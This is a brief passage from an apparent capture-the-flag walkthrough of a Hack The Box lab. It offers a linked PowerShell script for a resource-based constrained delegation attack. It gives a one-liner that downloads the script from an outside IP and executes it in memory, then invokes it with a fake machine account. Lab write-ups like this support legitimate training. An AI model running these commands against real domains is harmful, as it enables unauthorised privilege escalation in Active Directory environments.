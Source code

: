 Automate the process with a PowerShell script: [RbcdPwn.ps1](https://gist.github.com/snovvcrash/81c8e151527bfd5e28c40ed77eb3c5ab):

```
PS > iex(new-object net.webclient).downloadstring("http://10.14.14.37/RbcdPwn.ps1");Invoke-RbcdPwn -FakeMachine fakemachine123
```

[![rbcdpwn-ps1.png](/assets/images/htb/endgames/hades/rbcdpwn-ps1.png)](/assets/images/htb/endgames/hades/rbcdpwn-ps1.png)
{:.center-image}
